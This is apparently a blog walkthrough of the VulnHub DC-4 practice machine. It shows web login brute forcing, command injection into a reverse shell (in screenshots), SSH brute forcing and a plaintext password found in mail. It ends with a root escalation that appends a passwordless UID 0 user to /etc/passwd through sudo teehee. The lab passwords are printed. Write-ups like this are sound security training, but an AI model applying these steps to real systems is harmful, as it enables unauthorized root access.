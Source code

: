 ```yaml
---
layout: "post"
title: "DC 4 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-4, easy, teehee]
---
```

DC-4 is a good beginner-friendly box. We `bruteforce` the website and get admin password. with the help of `OS command injection` vulnerability get shell on box. The old-password list gives password of user jim and mail from charles gives another password. We get root by adding user in `/etc/passwd` file using `teehee`. 

# Summary
- Portscan
- Bruteforce site to get admin password
- Command Injection
- Bruteforce SSH 
- Find password from mail
- Check Sudoers
- Add new user using teehee
- Root access
- The Flag

# Recon

## Portscan
```bash
Nmap scan report for 192.168.1.8
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Website
We have a login page on the website with title `Admin inforamtion Systems login` 
![mainpage](/assets/img/dc-4/mainpage.png)
## Gobuster
After running gobuster we see that we have a `command.php` but it redirect to login.php. I tried sql injection and other attacks but no luck. The final option is Bruteforce.

```bash
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.8 -x php,html,txt -o go-main.out
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 302)
/css (Status: 301)
/logout.php (Status: 302)
/command.php (Status: 302)
```
# Bruteforce using burpsuite
As per the site mainpage, I set username filed as `admin` and using burpsuite brute force the login page.

![burpsuite](/assets/img/dc-4/b1.png)
![burpsuite](/assets/img/dc-4/b2.png)

We get credentials.

```
username : admin
password : happy
```

# Command injection
After login we have command option by clicking this we can see list of commands.
Pick one of them and see the result.

![command](/assets/img/dc-4/command.png)
![command2](/assets/img/dc-4/command2.png)

So, I intercept the request in burp and send it to repeter.
Change the radio option to reverse shell, set up netcat listener and get the shell.

![reverse](/assets/img/dc-4/b3.png)
![nc](/assets/img/dc-4/nc.png)

# First User 
There are 3 user on box *charles, jim* and *sam*. We found old-password.txt in home directory of user jim.
![users](/assets/img/dc-4/users.png)
Now brute force the SSH and we get password for jim.
![hydra](/assets/img/dc-4/ssh.png)

Use this password to login to ssh.

```
username : jim
password : jibril04
```

# Second User
The jim directory has `mbox` which is an test email. So, I checked `/var/mail` folder there is mail for jim.

```
jim@dc-4:~$ ls
backups  mbox  test.sh
jim@dc-4:~$ cd /var/mail
jim@dc-4:/var/mail$ ls
jim
```

Mail has password for `charles`.
```
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Use this password to login to `charles`.

```
jim@dc-4:~$ su - charles
Password: 
charles@dc-4:~$ 
```

```
username : charles
Password : ^xHhA&hvim0y
```

# Privesc to root
Now I checked the sudoers list and found that I can run teehee command without password.

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

We can also see the help menu.

```
charles@dc-4:~$ teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

```
This binary append standered input to file. I added user in the /etc/passwd.

```
charles@dc-4:~$ sudo teehee -a /etc/passwd
user::0:0:::/bin/bash 
user::0:0:::/bin/bash
^C
charles@dc-4:~$ su user
root@dc-4:/home/charles# 
```
# Root Flag

```bash
root@dc-4:/root# cat flag.txt 



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
